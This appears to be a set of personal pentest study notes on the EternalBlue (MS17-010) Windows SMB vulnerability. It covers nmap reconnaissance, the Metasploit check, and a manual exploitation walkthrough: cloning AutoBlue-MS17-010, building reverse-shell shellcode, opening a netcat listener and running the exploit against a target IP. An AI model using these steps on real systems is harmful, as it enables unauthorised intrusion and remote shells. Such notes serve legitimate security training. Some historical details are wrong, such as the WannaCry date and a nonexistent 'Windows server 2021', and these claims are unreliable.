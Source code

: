 + <mark style="background: #FF5582A6;">EternalBlue</mark> exploit was used in the <mark style="background: #FF5582A6;">WannaCry</mark> ransomware attack in June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible 
	+ Eternal blue would scan other computers on the network and spread the <mark style="background: #FF5582A6;">WannaCry</mark> 
+ The vulnerability affects <mark style="background: #FFF3A3A6;">multiple versions of Windows</mark>:
	+ Windows Vista
	+ Windows 7
	+ Windows server 2008
	+ Windows 8.1
	+ Windows server 2021
	+ Windows 10
	+ Windows server 2016

+ Microsoft released a patch for the vulnerability in March 2017, however, many users and companies have yet to patch the system
+ The <mark style="background: #FF5582A6;">EternalBlue</mark> exploit has a <mark style="background: #FF5582A6;">MSF</mark> auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems
+ The <mark style="background: #FF5582A6;">EternalBlue</mark> exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system
+ In addition to the <mark style="background: #FF5582A6;">MSF</mark> modules, we can also manually exploit the vulnerability by utilizing <mark style="background: #FFF3A3A6;">publicly available exploit code</mark>

AutoBlue-MS17-010 is the <mark style="background: #ADCCFFA6;">exploit script</mark> on Github

#### Recon EternalBlue ####
+ will first do some recon
	+ `sudo nmap -sV -p 445 -O IP`
		+ Can see that SMB is running and it is windows server 2008, which is vulnerable 
+ Can also use an nmap script, <mark style="background: #FFB86CA6;">--script smb-vuln-ms17010</mark> to see if it is vulnerable 
	+ Will tell us the <mark style="background: #ADCCFFA6;">risk and that it is running SMBv1</mark>

#### Manually Exploiting EternalBlue ####

Will go to the Github <mark style="background: #D2B3FFA6;">AutoBlue-MS17-010</mark>
+ Clone the repository 
+ The exploit .py file will have multiple versions
+ There will also be a text file with dependencies 
	+ can install with `pip install -r requirements.txt`
+ first generate the shell code with:
	+ ./shell_prep.sh
	+ can generate reverse shell with <mark style="background: #D2B3FFA6;">msfvenom</mark> 
		+ will have information requirements (LHOST, LPORT, etc)
+ Can now start a <mark style="background: #D2B3FFA6;">netcat</mark> listener 
	+  `nc -nvlp 1234` where 1234 was the port specified in the shell code
+ Then can <mark style="background: #FFF3A3A6;">run the exploit</mark>
	+ make a file executable with `chmod +x FILENAME.py`
	+ Then can run with `python3 eternalblue_exploit.py TARGET_IP shellcode/sc_x64.bin` (or whatever shell code is being used)
+ Now <mark style="background: #ADCCFFA6;">have a command shell </mark>
